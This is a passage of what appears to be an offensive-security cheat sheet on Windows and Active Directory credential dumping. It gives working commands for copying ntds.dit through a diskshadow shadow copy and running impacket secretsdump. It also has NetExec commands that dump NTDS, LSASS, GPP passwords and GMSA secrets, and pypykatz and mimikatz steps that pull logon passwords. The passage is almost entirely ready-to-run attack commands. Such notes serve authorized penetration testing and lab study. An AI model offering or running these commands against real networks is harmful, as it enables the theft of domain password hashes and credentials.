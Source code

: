 ```
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```

```
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```

* [privesc-with-sebackup](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)
* [iredteam](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)
* [0xdf](https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#diskshadow)

* nxc 

```bash
nxc smb $IP -u user -p password --ntds
```


## LSASS

* kali
```
pypykatz lsa minidump lsass.dmp > lsass.txt
```

* nxc
```bash
nxc smb $IP -u username -p password -M lsassy
```

* mimikatz

```powershell
privilege::debug
sekurlsa::logonpasswords
```

## GPP

* nxc

```bash
nxc smb $IP -u user -p password -M gpp_password
```

## GMSA

* nxc

```bash
nxc smb $IP -u user -p password --gmsa
``` 

## LAPS
